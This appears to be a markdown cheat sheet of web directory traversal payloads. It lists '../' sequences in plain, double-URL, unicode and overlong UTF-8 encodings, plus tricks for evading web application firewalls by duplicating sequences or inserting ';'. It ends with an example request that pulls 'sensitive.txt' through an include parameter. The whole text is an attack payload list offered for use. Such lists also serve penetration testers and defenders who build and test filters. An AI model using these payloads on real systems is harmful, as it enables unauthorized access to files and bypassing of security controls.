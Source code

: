 # Enum-Web-Dir-Traversal

Basic
```
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

# Double URL encoding

```
. = %252e
/ = %252f
\ = %255c
```

# 16 Bit unicode

```
. = %u002e
/ = %u2215
\ = %u2216
```

# UTF-B

```
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

# Bypass WAF with duplication

```
..././
...\.\
```

# Bypass WAF with ;

```
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt 

```